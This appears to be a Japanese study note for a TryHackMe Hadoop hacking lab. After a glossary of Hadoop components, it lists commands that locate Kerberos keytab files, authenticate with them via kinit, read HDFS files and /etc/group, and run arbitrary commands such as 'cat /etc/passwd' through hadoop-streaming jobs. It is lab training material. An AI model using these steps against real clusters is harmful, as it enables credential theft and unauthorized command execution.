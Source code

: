 # Hadoop

https://tryhackme.com/room/hackinghadoop

## 用語

- クラスター- データレイクを構成するすべてのシステムを指します。
- ノード - Hadoop クラスター内の単一のホストまたはコンピューター。
- NameNode - Hadoopファイル システムのディレクトリ ツリーを保持する役割を担うノード。
- DataNode - NameNode の指示に従ってファイルを保存するスレーブ ノード。
- プライマリ ネームノード- ディレクトリ構造を維持する役割を担う現在のアクティブ ノード。
- セカンダリネームノード- プライマリネームノードが応答しなくなった場合に、ディレクトリ構造をシームレスに引き継ぐバックアップノード。クラスター内には複数のセカンダリネームノードが存在できますが、アクティブなプライマリネームノードは常に1つだけです。
- マスター ノード- HDFS マネージャーや YARN リソース マネージャーなどの Hadoop「管理」アプリケーションを実行しているノード。
- スレーブノード- HDFSやMapReduceなどのHadoop「ワーカー」アプリケーションを実行するノード。1つのノードが同時にマスターノードとスレーブノードの両方として機能する場合があることに注意してください。
- エッジノード- ZeppelinやHueなどのHadoopユーザーアプリケーションをホストするノード。これらは、ユーザーがデータレイクに保存されたデータを処理するのに使用できるアプリケーションです。
- Kerberised- Kerberosを通じてセキュリティが有効になっているデータレイクを指す用語。

### アプリケーションとサービス

- HDFS - Hadoop分散ファイルシステムは、ファイルなどの非構造化データの主要なストレージアプリケーションです。
- Hive - Hiveは構造化データの主要なストレージアプリケーションです。巨大なデータベースと考えてください。
- YARN - Hadoop のメイン リソース マネージャー アプリケーション。クラスター内のジョブのスケジュールに使用されます。
- MapReduce - 膨大な量のデータを処理するためのHadoopアプリケーション・エグゼキューター。フィルタリングとソートを実行するMapプロシージャと、サマリー操作を実行するreduceメソッドで構成されています。
- HUE - HDFS および Hive 用のGUIを提供するユーザー アプリケーション。
- Zookeeper - 問題のクラスターの構成を設定するために、クラスターの運用サービスを提供します。
- Spark - 大規模データ処理用のエンジン。
- Kafka -リアルタイムデータ処理用のパイプラインを構築するためのメッセージブローカー。
- Ranger - データレイク内のリソースに対する権限アクセス制御の構成に使用されます。
- Zeppelin - インタラクティブなデータ分析のための Web ベースのノートブック アプリケーション。

## Kerberos Keytab

https://github.com/wavestone-cdt/hadoop-attack-library

検索

```sh
find / -name *keytab* 2>/dev/null
```

プリンシパル名などを表示

```sh
klist -k /etc/security/keytabs/zp.service.keytab
```

認証

```sh
kinit <principal name> -k -V -t <keytabfile>

# 例
kinit zp/hadoop.docker.com@EXAMPLE.COM -k -V -t /etc/security/keytabs/zp.service.keytab
```

HDFS

```sh
/usr/local/hadoop-2.7.7/bin/hdfs dfs -ls /

/usr/local/hadoop-2.7.7/bin/hdfs dfs -cat /user/zp/flag3.txt
```

権限を持つユーザー、サービスを特定

```sh
# hadoop_super
cat /etc/group
```

コマンド実行

```sh
# -input: 空ではないファイル
# -output: 存在しないディレクトリ
/usr/local/hadoop-2.7.7/bin/hadoop jar /usr/local/hadoop-2.7.7/share/hadoop/tools/lib/hadoop-streaming-2.7.7.jar -input /tmp/aaa -output /tmp/tmpdir -mapper "cat /etc/passwd" -reducer NONE

# -file で、ローカル環境のシェルファイルを実行できる
/usr/local/hadoop-2.7.7/bin/hadoop jar /usr/local/hadoop-2.7.7/share/hadoop/tools/lib/hadoop-streaming-2.7.7.jar -input /tmp/aaa -output /tmp/tmpdir -mapper "/tmp/aaa.sh" -reducer NONE -file /tmp/aaa.sh
```
